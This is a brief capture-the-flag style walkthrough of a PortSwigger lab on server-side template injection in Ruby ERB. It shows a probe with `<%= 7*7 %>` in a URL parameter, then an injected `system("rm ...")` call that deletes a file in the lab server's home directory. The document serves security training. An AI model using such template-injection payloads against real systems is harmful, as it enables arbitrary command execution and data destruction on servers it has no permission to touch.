 # Basic server-side template injection

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the unsafe construction of an ERB template.

## To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

### HINT

### irb(main):007:0> system("mkdir testruby")

### => true

---

### step 1

use `<%= 7*7 %>`

eg `https://0a7800a803242fc88031d056005b0035.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`
it will print out of stock
`https://0a7800a803242fc88031d056005b0035.web-security-academy.net/?message=<%= 7*7 %>`
it will print 49

### step2

From the Ruby documentation, discover the `system()` method,
which can be used to execute arbitrary operating system commands.
`<%= system("rm /home/carlos/morale.txt") %>`
lab solve
